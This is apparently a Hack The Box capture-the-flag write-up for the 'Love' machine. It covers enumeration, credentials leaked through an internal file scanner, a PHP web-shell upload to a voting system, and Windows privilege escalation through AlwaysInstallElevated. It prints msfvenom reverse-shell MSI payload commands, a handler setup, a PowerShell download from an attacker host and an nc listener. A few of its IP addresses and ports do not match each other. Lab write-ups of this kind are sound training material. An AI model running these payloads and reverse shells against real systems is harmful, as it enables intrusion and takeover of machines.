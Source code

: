 # Love

IP: ## 10.10.10.239

````bash
echo "10.129.128.17 love.htb" >> /etc/hosts 
````

## nmap
|Port|service|
|---|---|
|80|http|
|135|msrpc|
|139|netbios-ssn|
|443|https|
|445|smb|
|3306|mysql|
|5000|upnp|

Lets start with the website. 
we can see it a voting website using php.
like try do some enumlation on the site. 

````bash
gobuster dir -u http://love.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
````

We find */admin* which ask for creds we do not have yet.

lets try the other ports
on port 443 we get access forbidden. 

looking at the cert of the https site we see a subdomain 
staging.love.htb and username roy@love.htb.
So we add the the domin to /etc/hosts. 
I try with https but still got forbidden, but on http we get a file scanner. 
Lets see if we can 
I tried scanning itself just for fun as it was forbidden to us.  
http://127.0.0.1:5000

creds: 
Vote Admin Creds 
admin: @LoveIsInTheAir!!!! 

Let try login with the cred on love.htb/admin and we got access. 
I can see under user setting we have a the options to upload a file as our images, lets see if it can be exploited.
At the buttom we see it created by sourcecodester.com and the system is called voting-system-using-php.html time to google for exploit. 

https://www.exploit-db.com/exploits/49445
But sadly the exploit did not work :C 
Guess we have to do it the manual way. 

I tried my go to reverse shell by pentestmonkey, but did not work
I got hinted at using:
[shell](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/minified/simple_php_web_shell_get__mini_v2.php)

we got access as user, get the flag and lets try get admin

## admin 
Scan the system with WinPEAS and we learn that AlwaysInstalledElevated feature is used to install MSI packages, lets create a shell with msfvenom and get admin. 

````bash
msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=10.10.14.200 LPORT=8856 -f msi -o "trustme.msi"
````

Now open msfconsole to catch the rev shell.

````bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost 10.10.14.200
set lport 8765
````

Upgrade to powershell and download the file 
````powershell
Powershell.exe
Invoke-WebRequest -URI http://10.10.14.200:8000/trustme.msi -OutFile trustme.msi
````
and still just user.

````bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.200 LPORT=8856 -f msi -o "trustme.msi"
````

On another machine.

````bash
nc -lvnp 8856
````
and I got root. 

